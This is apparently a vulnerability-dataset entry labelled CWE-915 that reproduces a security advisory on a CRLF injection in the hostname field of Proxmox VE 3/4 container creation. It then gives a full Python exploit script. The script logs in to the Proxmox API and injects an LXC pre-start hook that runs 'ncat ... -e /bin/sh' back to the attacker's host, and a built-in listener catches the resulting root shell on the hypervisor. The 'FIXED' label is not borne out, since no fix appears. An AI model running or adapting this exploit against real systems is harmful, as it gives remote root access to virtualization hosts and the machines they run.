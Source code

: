 # CWE-915
CWE-915 FIXED
=====================================================================
Proxmox VE 3/4 Insecure Hostname Checking (Remote Root Exploit, XSS,
Privileges escalation)
=====================================================================

Description
===========

Proxmox is a popular virtualization solution based on KVM and Linux
containers.

A critical vulnerability has been found in Proxmox VE 3 (OpenVZ) and
Proxmox VE 4 beta 1 (LXC) in the
virtual machine creating form allowing authenticated remote users to
overwrite configuration files settings.


Configuration file overwriting
==============================

Because the Proxmox VE application doesn't check the
user-provided "hostname" POST parameter, it's
possible to overwrite configuration files using a CRLF injection.
In Proxmox VE 3, we successfully gained access to the host filesystem
from a container and elevated our container capabilities, allowing us to
obtain user credentials and sniff the network.
In Proxmox VE 4b1, because LXC allows "hooks" to execute commands, we
successfully gained root privileges on the host.
It's also possible to exploit Proxmox clusters.

**Access Vector**: remote

**Security Risk**: high

**Vulnerability**: CWE-915


# CODE
```python
#!/usr/bin/env python

import requests
import socket
import telnetlib
from threading import Thread
import argparse
from time import sleep


def exploit(target, username, password, vmid, template, realm, reverse, hostname):
        payload = "ncat %s %s -e /bin/sh" % reverse

        print "[~] Obtaining authorization key..."
        apireq = requests.post("https://%s/api2/extjs/access/ticket" %
        target,
        verify=False,
        data={"username": username,
        "password": password,
        "realm": realm})

        response = apireq.json()
        if "success" in response and response["success"]:
            print "[+] Authentication success."
            ticket = response["data"]["ticket"]
            csrfticket = response["data"]["CSRFPreventionToken"]
            createvm = requests.post("https://%s/api2/extjs/nodes/%s/lxc" % (target, hostname),
                verify=False,
                headers={"CSRFPreventionToken":
                csrfticket},
                cookies={"PVEAuthCookie": ticket},
                data={"vmid": vmid, "hostname": "sysdream\nlxc.hook.pre-start=%s &&" % payload,
                        "storage": "local",
                        "password": "sysdream",
                        "ostemplate": template,
                        "memory": 512,
                        "swap": 512,
                        "disk": 2,
                        "cpulimit": 1,
                        "cpuunits": 1024,
                        "net0": "name=eth0"})
            if createvm.status_code == 200:
                response = createvm.json()
                if "success" in response and response["success"]:
                    print "[+] Container Created... (Sleeping 20 seconds)"
                    sleep(20)
                    print "[+] Starting container..."
                    startcontainer = requests.post("https://%s/api2/extjs/nodes/%s/lxc/%s/status/start" % (target, hostname, vmid), verify=False, headers={"CSRFPreventionToken": csrfticket}, cookies={"PVEAuthCookie": ticket})
                    if startcontainer.status_code == 200:
                        response = startcontainer.json()
                        if "success" in response and response["success"]:
                            print "[+] Exploit should be working..."
                        else:
                            print "[!] Can't start container ! Try to start it manually."
                else:
                    print "[!] Error creating container..."
                    print response
            else:
                print "[!] Error creating Container. Bad HTTP Status code : %d" % createvm.status_code
        else:
            print "[!] Authentication failed - Check the credentials..."

def handler(lport):
        print "[~] Starting handler on port %d" % lport
        t = telnetlib.Telnet()
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.bind(("0.0.0.0", lport))
        s.listen(1)
        conn, addr = s.accept()

        print "[+] Connection from %s" % addr[0]

        t.sock = conn

        print "[+] Pop the shell ! :)"

        t.interact()

if __name__ == "__main__":
        print "[~] Proxmox VE 4.0b1 Authenticated Root Exploit - Nicolas Chatelain <n.chatelain[at]sysdream.com>\n"

        parser = argparse.ArgumentParser()
        parser.add_argument("--target", required=True, help="The target host (eg : 10.0.0.1:8006)")

        parser.add_argument("--username", required=True)
        parser.add_argument("--password", required=True)

        parser.add_argument("--localhost", required=True, help="Local host IP for the connect-back shell.")
        parser.add_argument("--localport", required=True, type=int, help="Local port for local bind handler")

        parser.add_argument("--vmid", required=False, default="999", type=int, help="A unique ID for the container, exploit will fail if the ID already exists.")

        parser.add_argument("--template", required=False,
default="local:vztmpl/debian-7.0-standard_7.0-2_i386.tar.gz", help="An existing template in the hypervisor " "(default : local:vztmpl/debian-7.0-standard_7.0-2_i386.tar.gz)")

        parser.add_argument("--realm", required=False, default="pam",choices=["pve", "pam"])

        parser.add_argument("--hostname", required=True, help="The target hostname")

        args = parser.parse_args()

        handlerthr = Thread(target=handler, args=(args.localport,))
        handlerthr.start()

        exploitthr = Thread(target=exploit, args=(args.target,args.username, args.password, args.vmid, args.template, args.realm,
(args.localhost, args.localport), args.hostname))
        exploitthr.start()

        handlerthr.join()
        ```
